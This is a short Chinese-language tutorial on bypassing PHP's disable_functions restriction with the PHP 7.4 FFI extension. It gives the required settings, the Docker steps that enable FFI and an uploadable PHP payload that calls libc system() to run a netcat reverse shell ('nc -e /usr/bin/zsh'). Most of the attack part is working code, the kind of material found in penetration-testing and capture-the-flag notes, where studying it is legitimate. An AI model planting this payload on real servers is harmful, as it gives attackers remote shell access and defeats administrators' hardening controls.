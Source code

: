 `PHP7.4` 的一个新特性 `FFI（Foreign Function Interface）`
当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可`Bypass disable_functions`。


**使用条件**

- Linux 操作系统
- PHP >= 7.4
- 开启了 FFI 扩展且 `ffi.enable=true`

```
[ffi]
; FFI API restriction. Possible values:
; "preload" - enabled in CLI scripts and preloaded files (default)
; "false"   - always disabled
; "true"    - always enabled
ffi.enable=true

; List of headers files to preload, wildcard patterns allowed.
;ffi.preload=
```


使用`docker` 部署服务：
```bash
apt-get install libffi-dev

docker-php-ext-install ffi
```
重启服务，上传 Payload 网页

```php
<?php
$a='nc -e /usr/bin/zsh 127.0.0.1 8888';
$ffi = FFI::cdef(
   "int system(char *command);", // this is a regular C declaration
   "libc.so.6");
// call C's printf()
$ffi->system($a);
?>
```
